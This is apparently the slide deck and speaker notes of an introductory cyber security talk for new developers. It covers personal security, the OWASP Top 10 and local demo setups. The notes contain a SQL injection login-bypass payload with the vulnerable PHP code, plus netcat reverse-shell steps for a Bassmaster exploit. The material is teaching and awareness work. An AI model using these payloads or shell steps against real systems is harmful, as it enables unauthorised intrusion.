








## Intro to Cyber Security

Note:
Presentation Setup

Pre entering zoom
- make sure all apps are closed, discord etc, and make sure vmware is on the far right hand side of the taskbar to avoid the preview popup from entering the presentation

- Have presentation in a incognito pane, locked to left half
  - Left side (win+Left)
- Hide bookmark bar
- speaker notes pinned to the right with these notes


- Have VM locked to left half but minimized / ready to go for demo's (start with shhgit)
  - have all dockers running and tabs open in browser and terminal/tmux prepared
  - docker x3
  - browser tabs, x4 (shhgit, bpms, java, bassmaster)
  - be in right folders for demos
  
Share screen
- Share screen, advanced, portion of screen


<!--v-->

## Objectives
- What is security?
- Why is security important?
- Basics of personal security
- Help for developers from [OWASP](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/)
- Demo's of some hacking:
  - SQL Injection: Authentication bypass
  - Remote Code Execution: System Takeover

Note:
Aim of this talk is to give a really basic introduction to security and some issues that would be useful to be mindful of as you enter into your new careers as developers.


<!--s-->

## About Me

<!--v-->

### Benjamin Marr
- Cyber Security Consultant @ [Context Information Security](https://www.contextis.com) part of [Accenture Security](https://www.accenture.com/)
- Used to be a PHP developer, Linux admin and more...
- Social links:
  - https://www.linkedin.com/in/0x01bm/
  - https://twitter.com/0x01BM
  - https://github.com/0x01BM

<!--v-->
<!-- .slide: data-background="./images/Leaked footage of the infamous hacker called 4chan - Imgur.gif";-->
<!-- .slide: data-background-position="bottom 5% right 5%";-->
<!-- .slide: data-background-size="30%";-->

### What is a pentester?
- Ethical Hacker
- Right side of the law and ethics
  - Computer Misuse Act, codes of conduct, NDA's etc..
- Work within defined scopes and with permission
- Find flaws in digital systems
- Relay findings & fixes to teams
  - aka write many reports!

Note:
Cannot stress enough that you must have permission and stay within the law/ethics.

Not all hoodies and shells, sometimes it feels like we're a paid writer with a hobby in hacking.


<!--s-->

## What is security?

<!--v-->

### What is security?
_"Cyber security's core function is to protect the devices we all use (smartphones, laptops, tablets and computers), and the services we access - both online and at work - from theft or damage.
It's also about preventing unauthorised access to the vast amounts of personal information we store on these devices, and online."_ Source: [NCSC](https://www.ncsc.gov.uk/section/about-ncsc/what-is-cyber-security)


<!--v-->

### Security Terms
- Offense vs Defence
- CIA?
  - Confidentiality/Integrity/Availability
- Multifactor Authentication
  - 2 Factor Authentication? 3?..
- Allowlist / Blocklist

Note: 
Offense/Defense = talked about alter on - keep simple

CIA - Confidentiality = keep data a secret, integrity = confirm data is unchanged and availability = keep data accessible

MFA= Something you have, something you are, something you know, somewhere you are

Allow/Block = lists to grant/deny access to resources

Lots of acronyms, too many to go through. Nice article on [Medium[(https://medium.com/ochrona/2020-top-cybersecurity-acronyms-88f2202abcf2) with some

<!--v-->
<!-- .slide: data-background="./images/twitter-breach.png";-->
<!-- .slide: data-background-position="bottom 65% right 5%";-->
<!-- .slide: data-background-size="30%";-->
### Security Terms cont.
- Phishing
- Hashing/Encryption
  - Hashing = 1way
  - Encryption = reversible
- Encoding
  - `test%40test.com` = `test@test.com`
- Escaping
  - `echo ("Hello \"George\"")` = `Hello "George"`

Note:
encoding, many forms, this is url, allow dangerous characters without interrupting the app

escaping, where you don't want to encode, but again allow dangerous characters without interrupting the app

<!--v-->

### Security teams you may interact with
- Architect Planning
- Internal Security Teams
  - SOCS / Risk Management
  - DevSecOps
- Risk Auditors
  - Infosec compliance e.g. GDPR!
- Penetration Testers (me!)

Note:
Not a comprehensive list!

<!--s-->

## Why Is Security Important?

<!--v-->

### Recent Breaches

<div class="r-stack">
  
  
  
  
  
  
  
</div>

Note: 
As a developer, you're usually the first line of defence and can prevent issues long before the code gets out into the public. Fixing these issues early in the development cycle is far much time/cost efficient than it is to patch a released product.

<!--s-->

## Personal Security

<!--v-->

### Personal Security
- Not just your code needs to be secure
- Security of your devices and profiles are also important
- Careful where you are working!
  - Can someone view sensitive information over your shoulder? e.g. train...

<!--v-->

### Personal Security: Devices
- Keep them updated!
- Use Windows Defender or another Anti-Virus if preferred
- Don't put company files onto personal devices
- Strong, unique passwords
- Password Managers
  - [1Password](https://1password.com/), [LastPass](https://www.lastpass.com/), [Bitwarden](https://bitwarden.com/)...

<!--v-->
### Example: Password lists


Note:

Command to product the list of "complex passwords" : cat rockyou.txt | grep '[a-z]' | grep '[A-Z]' | grep '[0-9]' | grep '.\{8\}' | grep "[][\§\±\!\@\£\$\%\^\&\*\(\)\_\+\=\#\€\{\}\;\:\'\"\\\|\/\?\.\,\<\>\`\~\-]" | awk '{ print length($0) " " $0; }' | sort -r -n | cut -d ' ' -f 2- | uniq | tail -n +4000 | head -n 3900 | pr --columns=5 --width=100
<!--v-->

### Personal Security: Passwords
- Check if accounts are compromised ([HIBP](https://haveibeenpwned.com/))
- More information by the National Cyber Security Centre @ [NCSC.gov.uk](https://www.ncsc.gov.uk/collection/top-tips-for-staying-secure-online)


Note: 
Recommendation from key bodies recommend 12+ characters (more is better), passphrases make it easier to deal with.
Password managers make like much easier, they can handle 2FA token's too

NCSC link: https://www.ncsc.gov.uk/collection/top-tips-for-staying-secure-online

<!--v-->

### Personal Security: GitHub
- Rotate your SSH keys regularly
- Enable 2FA
- Careful what code you push to GitHub
  - Shhgit Demo...

Note:
ssh-key - every few months/project change

Shhgit - live list of leaks on github: https://shhgit.darkport.co.uk/


<!--s-->

## OWASP

<!--v-->

### OWASP
- OWASP
  - _"The Open Web Application Security Project is an online community that produces freely-available articles, methodologies, documentation, tools, and technologies in the field of web application security."_
- Top 10 List
  - Last updated 2017, refresh for 2020 is underway!

<!--v-->

### OWASP Top 10 (2017)
- A1: Injection <!-- .element: class="fragment highlight-red" -->
- A2: Broken Authentication <!-- .element: class="fragment highlight-red" --> 
- A3: Sensitive Data Exposure
- A4: XML External Entities (XXE)
- A5: Broken Access Control
- A6: Security Misconfiguration
- A7: Cross-Site Scripting (XSS)
- A8: Insecure Deserialization
- A9: Using Components with Known Vulnerabilities
- A10: Insufficient Logging & Monitoring


<!--s-->

## SQL Injection (SQLi)

<!--v-->

### SQLi - What is it?
- SQL injection is an attack where injected code can be inserted within an SQL query

<!--v-->

### SQLi - What is the impact?
- Bypass security controls
- Expose, destroy or modify sensitive data
  - This might be data that belongs to others
- Or sometimes take control of the computer hosting the database

<!--v-->

### SQLi: Demo Time!
- Demo of an authentication bypass in an open source application
  - Software: Beauty Parlour Management Software v1.0
  - Exploit discovered by [Prof Kalias Patil](https://www.exploit-db.com/exploits/48605)
- Demo...

Note:
RUN DOCKER
```
docker run --rm -it -p "80:80" -v ${PWD}/bpms:/app -v ${PWD}/mysql:/var/lib/mysql mattrayner/lamp:latest
```

URL: http://localhost/

PAYLOAD FOR USERNAME: 
```
' or '1' = '1' # --
```

PASSWORD = anything

TROUBLESHOOTING: WHY U HATE ME DEMO GODS???

New Shell to create DB:
```
docker exec -it CONTAINERID /bin/bash
mysql -u root -e "CREATE DATABASE bpmsdb"
mysql -u root bpmsdb < /app/bpmsdb.sql
```
<!--v-->

### SQLi: The Code
<pre style="white-space: pre-wrap;"><code data-line-numbers="0|1|3-4|5|3">if(isset($_POST['login']))
  {
    $adminuser=$_POST['username'];
    $password=md5($_POST['password']);
    $query=mysqli_query($con,"select ID from tbladmin where  UserName='$adminuser' && Password='$password' ");
    $ret=mysqli_fetch_array($query);
</code></pre>

<!--s-->

## Remote Code Execution (RCE)

<!--v-->

### RCE - What is it?
- Remote code execution is an attack where injected code can be executed by the system that is running the application


<!--v-->

### RCE - What is the impact?
- Expose, destroy or modify files or sensitive data
- Takeover the computer that is running the app

<!--v-->

### RCE - Demo Time!
- Demo of a remote command execution in an open source application
  - Software: Bassmaster API
  - Exploit discovered by [Jarda Kotesovec](https://www.exploit-db.com/exploits/40689)
- Demo...

Note:
Custom docker.

DOCKER SETUP:
```
docker run --rm --network=host --name bassmaster -d  bassmaster
```

URL: http://localhost:8080/request

CATCHING SHELL: 
Show these commands first:
```
id
cat /etc/issue
pwd
ls
```
Then run catching shell:
```
nc -nvlp 4444
```

EXECUTE EXPLOIT
```
python3 bm-exploit.py localhost localhost 4444
```


When caught:
```
id
cat /etc/issue
pwd
ls
head -n 20 /source/bassmaster/examples/batch.js 
```

<!--s-->

## Summary

<!--v-->
<!-- .slide: data-background="./test.png";-->
<!-- .slide: data-background-position="bottom 15% right 5%";-->
<!-- .slide: data-background-size="20%";-->

### Summary
- Treat all input as hostile!
- Good security is difficult
- There is help out there
- You play an important role in securing the internet
- Given a taster of what security is and how it affects you

<!--v-->

## Questions?

<!--s-->

## Resources

<!--v-->

### Personal Security
- https://www.ncsc.gov.uk/section/information-for/individuals-families
- https://www.kaspersky.co.uk/resource-center/definitions/what-is-cyber-security

<!--v-->

### Learn More About Defensive Security
- https://owasp.org/
  - Don't forget their local meetups!
- https://www.pluralsight.com/
- https://developer.mozilla.org/en-US/docs/Learn/Server-side/First_steps/Website_security
- https://snyk.io/

<!--v-->

### Learn More About Offensive Security
- Online labs to learn hacking safely
  - https://portswigger.net/web-security
  - https://www.hackthebox.eu/home
  - https://tryhackme.com/
  - https://www.pentesteracademy.com/

